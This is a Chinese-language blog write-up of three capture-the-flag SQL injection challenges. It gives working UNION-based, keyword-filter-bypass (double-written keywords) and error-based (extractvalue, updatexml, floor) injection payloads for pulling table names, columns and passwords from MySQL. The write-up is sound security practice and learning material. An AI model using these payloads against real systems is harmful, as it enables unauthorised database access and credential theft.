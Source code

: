 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      对于多种sqli的练习与总结(一)               # 标题 
subtitle:   实操加强对sqli的熟悉度
date:       2020-04-01             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


> 以下为做完题之后的整理，对于个人来说为了形成一个测试流程习惯

## 0x00：堆叠注入-lovesql
首先进入页面，发现有两个输入框，分别对于用户名和密码加上单引号测试闭合。  
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekjmd8ewj30kx0d20xo.jpg)
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjdkyzuj30i905574a.jpg)
报错点在密码处，首先尝试最简单的联合注入查询，通过select 语句探询字段数以及观察回显字段。  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdekmavozaj30hr0atgol.jpg)
发现在第三个字段回显信息，那个我们可以利用以下语句找到flag。
` 123' union select 1,2,concat(database())#`
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekmi7h0aj30ej0ao41e.jpg)
` 123' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='geek'#`
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekmdqsw5j30hs06xac2.jpg)
` 123' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#`
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdeklt62lnj30hw067dho.jpg)
` 123' union select 1,2,group_concat(password) from l0ve1ysq1#`
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdeklq9wxpj30ho0aiq5f.jpg)
找到flag，copy下来就容易看出了。  
总结一下：该sqli没有过滤，在使用联合查询注入这个简单注入时没有受到阻拦，使用group_concat是为了将整个字段的内容连接起来避免遗漏，
使用到了mysql特性数据库information_schema库，本次练习旨在提高熟悉程度以及小知识点的巩固。

## 0x01绕过简单规则-babysql
首先进入页面，依旧测试注入点，依旧和上述一样，用户密码为不同的输入，都加上单引号测试闭合以及注入点，这里就暂时不放上来了。   
测试一下联合注入：`123' union select 1,2,3#`  
报错回显：  
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdeklmrmqpj30c103t742.jpg)
仔细一看，我们的union和select去哪了？？？？原来过滤规则将union、select替换为空字符，可以猜测敏感词都会替换为空，分析一下，用户的输入会经过一次遍历，查找到危险词汇就会替换为空。
由之前学习得知，双写这些词，就可以绕过：`123' uniunionon seleselectct 1,2,3#` 
成功回显：
![](https://wx4.sinaimg.cn/mw690/007IMTbqgy1gdeklj3x8jj30ej0afgoo.jpg)
那么我们就来fuzz一下，看看哪些词会被替换成空，打开burp，接下来就是载入自己的sql字典遍历一下看一看：
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdeklg1hjcj30t10epabv.jpg)
这就知道了哪些词汇会被替换，我们要使用的时候直接双写！！！
由于步骤和以上一样，就简单记录一下payload，不放图了（有点懒哈哈哈哈）  
` 123' uniunionon seleselectct 1,2,concat(database())#`  
` 123' uniunionon seleselectct 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema='geek'#`  
` 123' uniunionon seleselectct 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'#`  
` 123' uniunionon seleselectct 1,2,group_concat(passwoorrd) frfromom b4bsql#`  
总结一下：该题目添加了简单的过滤规则，输入比较容易绕过的类型，此处我使用了burp去遍历过滤词，便于后续的payload构造，此处依旧是联合注入，还是比较简单的一道题目。

## 0x02hardsql
首先进入页面，依旧开始测试注入点，还是和之前一样，密码为注入点，单引号闭合，#没有过滤，接着测试联合注入，页面响应为：
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekl09bgxj30px0budkt.jpg)
有过滤规则，统一了错误页面，那么开始测试哪些sql用词被过滤，依旧打开burp，遍历过滤词：
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekkx4c9vj30s90gi767.jpg)
可以看到过滤了空格、等号这些偏符号的都过滤了，联合注入也不能使用了，尝试堆叠注入，由于堆叠注入的使用条件非常有限，我们测试一下看看：
![](https://wx2.sinaimg.cn/mw690/007IMTbqgy1gdekkstgcij30md08qdhf.jpg)
可以看出这大概是不行的了，没法执行多条语句。接下来剩下报错注入和盲注，先尝试报错注入，所用到的所有词都没有过滤，由于这里空格被过滤了，用其他符号来代替完成：  
`123'^extractvalue(1,concat(0x7e,(select(database())),0x7e))#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdekkpz8qdj30b705vgmg.jpg)
报错信息回显，利用xpath错误回显我们需要的信息,那么就是说我们报错注入是成功的，接下来构造相关语句：
`123'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek'))),0x7e))#`
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekkmqoczj30ba06fq3y.jpg)
`123'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e))#`
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjvam81j30dg08d40d.jpg)
`123'^extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e))#`  
![](https://wx3.sinaimg.cn/mw690/007IMTbqgy1gdekjrvog0j30f205tt9v.jpg)
咦，这个时候只显示了一半，搜索了一下，发现extractvalue和updatexml这两个常用的报错注入函数能查询的字符串最大长度为32，在显示内容过多时，可用截取函数substr或者left，right来截取或者使用concat函数的参数位置调换以此获取前后信息。
这里我们就利用left或者right来尝试一下
`123'^extractvalue(1,concat(0x7e,(select(right((password),30))from(H4rDsq1)),0x7e))#`    
![](https://wx1.sinaimg.cn/mw690/007IMTbqgy1gdekjpb7p0j30ib07fdhu.jpg)
这个时候我们拼接一下就完成了，这里总结以下：题目存在统一错误页面而且有错误信息回显，报错注入有一些会使用函数参数来返回错误信息，这一题使用到的是extractvalue，同类型的还有updatexml，都是利用xpath报错返回信息。  
通过ExtractValue报错,注入语句如下:
`and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));`  
通过UpdateXml报错,注入语句如下:
`and 1=(updatexml(1,concat(0x3a,(select user())),1))`   
拓展一下经常看见的双查询：
通过floor报错,注入语句如下:
`and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);`这个报错查询主要是利用主键重复产生错误信息来回显。















